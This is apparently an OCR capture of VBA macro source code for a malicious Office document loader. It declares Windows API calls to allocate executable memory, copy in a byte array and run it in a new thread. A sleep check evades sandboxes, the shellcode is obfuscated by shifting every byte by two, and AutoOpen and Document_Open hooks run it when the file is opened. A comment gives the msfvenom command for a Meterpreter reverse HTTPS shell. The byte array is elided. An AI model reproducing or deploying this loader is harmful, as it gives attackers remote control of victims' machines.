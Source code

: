 ```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
	Dim t1 As Date
	Dim t2 As Date
	Dim time As Long
	
	t1 = Now()
	Sleep (2000)
	t2 = Now()
	time = DateDiff("s", t1, t2)
	
	If time < 2 Then
	    Exit Function
	End If
    
    ' msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication
    buf = Array(232, 130, 0, 0, ...,123)

	
	For i = 0 To UBound(buf)
	    buf(i) = buf(i) - 2
	Next 

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

End Function
```

